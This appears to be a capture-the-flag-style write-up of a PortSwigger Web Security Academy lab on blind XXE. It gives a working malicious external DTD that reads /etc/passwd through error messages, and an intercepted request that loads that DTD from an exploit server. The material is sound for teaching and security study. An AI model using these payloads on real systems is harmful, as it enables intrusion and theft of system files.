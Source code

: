 # Lab: Exploiting blind XXE to retrieve data via error messages
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.


## Recon
This is very similar to the previous lab(Exploiting blind XXE to exfiltrate data using a malicious external DTD)
1. Complete Malicious Server Payload and Store
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
2. Complete Intercept Packet Payload
    Intercept the packet that you click `Check stock` button in arbitrary product page.
    Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
    
    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
3. Send packet!!!


## Exp
:::spoiler Malicious Server Payload
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Intercept Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad100a2040f8d8e821cce250179002c.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/SJPESjIEh.png)

---
![](https://hackmd.io/_uploads/rJjHSjLNn.png)
:::